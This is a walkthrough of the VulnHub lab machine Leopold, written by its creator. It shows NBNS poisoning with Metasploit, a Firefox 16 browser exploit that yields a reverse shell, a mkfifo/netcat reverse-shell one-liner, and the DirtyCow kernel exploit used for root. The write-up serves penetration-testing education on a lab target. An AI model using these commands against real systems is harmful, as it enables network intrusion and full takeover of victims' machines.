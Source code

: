 # Walkthrough - Leopold

Leopold was the second machine I created for my <a href="https://www.vulnhub.com/series/sp,189/">SP series</a> in late 2018, and I think it's the most popular of my machines. There are many walkthroughs out there for Leopold, but I wanted to show how I intended to solve it, but I have also made the walkthrough from an objective standpoint. Leopold is very different from any other VM that I have seen on VulnHub due to it's client-side aspect and will teach a real-world attack vector commonly used in penetration tests. Lastly, I would personally view this VM as easy in difficulty, but I have seen people complain about this. However, I think this is due to the unfamiliarity with this kind of exploitation.

## Enumeration

After finding the server on the network, we do a port scan to determine the services running:

```
$ nmap -sTV 192.168.0.31 -n -p-
---
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
---
```

The smb service doesn't yield anything useful, other than that it's a Linux machine, due to the Samba implementation of SMB. Where do we go from here? Let's fire up Wireshark to see if we can learn anything from there.

After some minutes we can see that there is a NBNS request for DISNEYWORLD made from leopold:
```
192.168.0.31 192.168.0.255 NBNS 92 Name query NB DISNEYWORLD<00>
```

## Setting up Man-in-the-middle

Netbios Name Service (NBNS) is like DNS, but simpler and decentralized. Instead of asking a server for hostname resolution, it sends out a broadcast asking the whole network if they know which IP-address a hostname resolves to. It is usually used together with LLMNR and mDNS as backup if a DNS request would fail. These protocols trusts the answers blindly, which makes them optimal for poisoning attacks to reroute the communication through our attacking machine.

There are multiple tools we can use for this, but we will stick to a Metasploit module which was made exactly for this.

Open Metasploit and use the auxiliary/spoof/nbns/nbns_response module. Set REGXP to "disneyworld" and SPOOFIP to your own attacking IP address. Keep Wireshark before writing "run" and hitting enter to start the module.

```
msf5 auxiliary(spoof/nbns/nbns_response) > options 

Module options (auxiliary/spoof/nbns/nbns_response):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INTERFACE                   no        The name of the interface
   REGEX      disneyworld      yes       Regex applied to the NB Name to determine if spoofed reply is sent
   SPOOFIP    192.168.0.32     yes       IP address with which to poison responses
   TIMEOUT    500              yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Run NBNS spoofing service


msf5 auxiliary(spoof/nbns/nbns_response) > run
[*] Auxiliary module running as background job 0.

[*] NBNS Spoofer started. Listening for NBNS requests with REGEX "disneyworld" ...
msf5 auxiliary(spoof/nbns/nbns_response) > 
```

Soon we will see the following output in Metasploit, meaning that leopold now thinks that the DISNEYWORLD hostname is resolving to our attacking computer.
```
[+] 192.168.0.31     nbns - DISNEYWORLD matches regex, responding with 192.168.0.32
```

We will also soon after see some TCP requests to port 80 from leopold to our attacking machine in Wireshark. However, we don't have anything running on port 80. We can fire up a netcat listener to see the request.

```
root@kali:~# nc -nlvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.0.31.
Ncat: Connection from 192.168.0.31:51910.
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

Here we have the request leopold is making. There is two key pieces of information we can gather from this, namely the user-agent string and the endpoint he is trying to reach, which is the root directory. After a quick web search on the user-agent string, we learn that leopold is using Firefox 16.

## Initial Access

Searching for "firefox" in searchsploit gives many possible alternatives and after some research, the "toString console.time Privileged JavaScript Injection" exploit seems to be a match for the Firefox version in question. It even has a Metasploit module. The module sets up a webserver on the attacking machine to serves the browser exploit to visitors. Let's change the SRVPORT to 80, which was the port leopold was trying to reach, and and URIPATH to "/", before running it.

```
msf5 exploit(multi/browser/firefox_tostring_console_injection) > options 

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.32     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
```

After some minutes we get a shell:

```
[*] 192.168.0.31     firefox_tostring_console_injection - Sending HTML response to 192.168.0.31
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.0.32:4444 -> 192.168.0.31:36555) at 2020-09-15 17:15:05 -0400
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)

```

The shell is not stable and dies after some mintues. To fix this, we can create a new shell. Open a new netcat listener on port 3333 on the attacking machine and write the code below in the current shell. Remember to change the attacking IP address.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.32 3333 >/tmp/f
```


## Priv Esc

Due to the old Linux kernel version, we can try the goto DirtyCow exploit. Simply download, rename and host the source code on the attacking machine:

```
root@kali:~# wget https://www.exploit-db.com/download/40839
root@kali:~# mv 40839 40839.c
root@kali:~# python3 -m http.server 8080
```

Download, compile and run the exploit on the target host, from the remote leopold shell:

```$ wget http://192.168.0.32
$ gcc 40839.c -o cow -pthread -lcrypt
$ ./cow
```

Enter a password for the firefart root user and wait for the exploit to finish, before switching to the firefart user:

```
$ su firefart
$ id
$ uid=0(firefart) gid=0(root) groups=0(root)
```

## Summary

Leopold is a workstation and a user trying to browse the Internet. What is most likely a typo in the address bar of the web browser, results in DNS failing and the computer resorts to alternative name resolution systems, which are open for man-in-the-middle attacks. From here we poisoned the name resolution request and redirected Leopold's traffic to our attacking computer which served a browser exploit, gaining us remote access to Leopold's computer. Using a well known kernel exploit, we managed to gain administrative rights to his computer.  
  
This attack vector is being actively used in real world penetration tests, with tools such as Responder, that works with a lot of different protocols and sets up various fake services, such as SMB to steal domain credentials and hashes.
